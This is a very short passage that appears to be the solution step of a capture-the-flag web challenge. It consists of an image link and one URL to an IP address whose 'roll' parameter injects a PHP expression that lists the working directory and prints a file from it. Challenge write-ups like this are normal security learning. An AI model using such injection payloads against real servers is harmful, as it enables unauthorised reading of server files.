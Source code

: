 ### Solution
view-source:http://192.46.227.32/?roll=readfile(next(array_reverse(scandir(getcwd())))).a
###########################
